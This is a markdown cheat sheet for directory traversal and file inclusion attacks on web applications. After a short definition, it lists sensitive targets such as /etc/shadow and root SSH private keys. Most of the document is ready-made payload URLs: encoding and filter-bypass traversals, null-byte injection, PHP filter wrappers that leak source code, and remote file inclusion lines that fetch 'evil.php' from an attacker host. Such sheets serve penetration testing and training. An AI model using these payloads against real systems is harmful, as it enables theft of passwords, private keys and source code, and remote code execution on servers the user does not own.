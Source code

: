 # Directory Traversal
 Directory traversal is a web vulnerability that allows an attacker to read arbitrary files on the server.
 ![](lfi1.png)

 
			Important files to check
- `/proc/version` 	      specifies the version of the Linux kernel
- `/etc/passwd` 		      has all registered user that has access to a system
- `/etc/shadow`		      contains information about the system's users' passwords
- `/var/mail/root`	 	all emails for root user
- `var/log/dmessage`	  contains global system messages
- `/root/.ssh/id_rsa`	      Private SSH keys for a root or any known user
- `/root/.bash_history`	    contains the history commands for root user

<!-- -->

			Directory Traversal Cheatsheat
Basics:
`http://vulnerable-site.com/index.php?page=../../../etc/passwd`
---
Nesting:
`http://vulnerable-site.com/index.php?page=....//....//....//etc/passwd`
`http://vulnerable-site.com/index.php?page=....\/....\/....\/etc/passwd`

Null Byte Injection:
`http://vulnerable-site.com/index.php?page=../../../etc/passwd%00`
--------------------------------------------------------------------
Encoding:
`http://vulnerable-site.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd`
`http://vulnerable-site.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd`
`http://vulnerable-site.com/index.php?page=%252e%252e%252fetc%252fpasswd`
`http://vulnerable-site.com/index.php?page=%252e%252e%252fetc%252fpasswd%00`
`http://vulnerable-site.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd`

--------------------------------------------------------------------
From an Existent Folder:
`http://vulnerable-site.com/index.php?page=utils/scripts/../../../../../etc/passwd`
--------------------------------------------------------------------
Path Truncation:
`http://vulnerable-site.com/index.php?page=a/../../[ADDMORE]../../etc/passwd`
--------------------------------------------------------------------
Filter Bypass: 
`http://vulnerable-site.com/index.php?page=....//....//etc/passwd`
`http://vulnerable-site.com/index.php?page=..///////..////..//////etc/passwd`
`http://vulnerable-site.com/index.php?page=/%5C../%5C../%5C../%5C../etc/passwd` `http://vulnerable-site.com/index.php?page=/var/www/../../etc/passwd`
--------------------------------------------------------------------
RFI:
`http://vulnerable-site.com/index.php?page=http://atacker.com/evil.php`
`http://vulnerable-site.com/index.php?page=\\attacker.com\evil.php`
--------------------------------------------------------------------
PHP Wrappers: filter
`http://vulnerable-site.com/index.php?page=php://filter/read=string.rot13/resource=index.php`
`http://vulnerable-site.com/index.php?page=php://filter/convert.base64-encode/resource=index.php`
`http://vulnerable-site.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php`
--------------------------------------------------------------------
PHP wrapper: zlib
`http://vulnerable-site.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd`
--------------------------------------------------------------------